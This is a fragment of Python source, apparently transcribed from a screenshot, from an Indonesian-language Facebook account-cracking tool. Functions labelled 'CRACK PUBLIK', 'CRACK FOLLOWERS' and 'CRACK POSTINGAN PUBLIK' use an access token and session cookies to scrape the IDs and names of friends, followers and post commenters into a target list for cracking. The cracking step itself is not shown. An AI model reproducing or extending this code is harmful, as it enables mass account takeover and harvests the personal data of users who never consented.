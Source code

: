 			po = requests.get(f'https://graph.facebook.com/{user}?fields=name,friends.fields(id,name)&access_token={token}').json()
			for i in po['friends']['data']:
				self.id.append(f"{i['id']}<=>{i['name']}")
		try:
			print ('')
			print(f"\r{U}{til}{O} Mengumpulkan Id {M}> {U}[{H}{len(self.id)}{U}] ",end="")
		except:
			pass
						
	# CRACK PUBLIK 
	def PublikGRAPH(self, user, token):
		try:
			po = requests.get(f'https://graph.facebook.com/{user}?fields=name,friends.fields(id,name).limit(5000)&access_token={token}').json()
			for i in po['friends']['data']:
				self.id.append(f"{i['id']}<=>{i['name']}")
				print(f"\r{U}{til}{O} Mengumpulkan Id {M}> {U}[{H}{len(self.id)}{U}] ",end="")
		except:
			pass
			
	# CRACK FOLLOWERS
	def FollowersPAR(self, data_):
		try:
			respon = requests.get(data_, cookies = self.kueh).text
			otw = re.findall('" \/>\<div\ class\=\"..\"\>\<a\ href\=\"\/(.*?)\"\><span\>(.*?)\<\/span\>', respon) 
			for i in otw:
				if "&amp;refid=" in i[0]:
					self.id.append(re.findall("id=(.*?)&",i[0])[0]+"<=>"+i[1])
				elif "profile.php?" in i[0]:
					self.id.append(re.findall("id=(.*)",i[0])[0]+"<=>"+i[1])
				elif "?refid=" in i[0]:
					self.id.append(re.findall("(.*?)\?refid=",i[0])[0]+"<=>"+i[1])
				else:
					self.id.append(i[0]+"<=>"+i[1])
				print(f"\r{U}{til}{O} Mengumpulkan Id {M}> {U}[{H}{len(self.id)}{U}] ",end="")
			if "Lihat Selengkapnya" in respon:
				self.FollowersPAR(self.url+parser(respon,"html.parser").find("a",string="Lihat Selengkapnya").get("href"))
		except:
			pass
			
	# CRACK POSTINGAN PUBLIK
	def postingan(self, data_):
		try:
			respon = requests.get(data_, cookies=self.kueh).text
			if "Semua 0" in respon:
				exit('\n%s%s tidak ada yg menanggapi postingan'%(M,til))
			else:
				otw = re.findall('\<h3\ class\=\".."\>\<a\ href\=\"(.*?)"\>(.*?)<\/a\>',respon)
				for i in otw:
					if "profile.php?" in i[0]:
						self.id.append(re.findall("id=(.*)",i[0])[0]+"<=>"+i[1])
					else:
						self.id.append(re.findall("/(.*)",i[0])[0]+"<=>"+i[1])
					print(f"\r{U}{til}{O} Mengumpulkan Id {M}> {U}[{H}{len(self.id)}{U}] ",end="")
				if "Lihat Selengkapnya" in respon:
					self.postingan(self.url+parser(respon,"html.parser").find("a",string="Lihat Selengkapnya").get("href"))